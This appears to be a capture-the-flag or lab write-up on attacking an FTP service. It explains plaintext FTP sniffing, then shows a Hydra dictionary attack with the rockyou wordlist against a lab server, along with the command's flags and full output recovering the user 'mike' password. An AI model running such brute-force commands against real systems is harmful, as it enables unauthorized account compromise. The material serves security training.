 With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an attacker could reveal anything sent through this protocol (such as passwords). An article written by [JSCape](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP) demonstrates and explains this process using APR-Poisoning to trick a victim into sending sensitive information to an attacker, rather than a legitimate source.

When looking at an FTP server from the position we find ourselves in for this machine, an avenue we can exploit is weak or default password configurations.

#### Method
So, from our enumeration stage, we know:
- There is an FTP server running on this machine
- We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

#### Using Hydra to Bruteforce
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. The syntax for the command we're going to use to find the passwords is this:
```bash
$ hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

# EXPLANATION:
# hydra                   Runs the hydra tool
# -t 4                    Number of parallel connections per target
# -l [user]               Points to the user who's account you're trying to compromise
# -P [path to dictionary] Points to the file containing the list of possible passwords
# -vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
# [machine IP]            The IP address of the target machine
# ftp / protocol          Sets the protocol
```

#### Answer
What is the password for the user "mike"?
```bash
$ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV 10.10.13.98 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-07 00:25:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.13.98:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[21][ftp] host: 10.10.13.98   login: mike   password: password
[STATUS] attack finished for 10.10.13.98 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-07 00:25:38
```
We got result! It's login: `mike` and password: **`password`**.
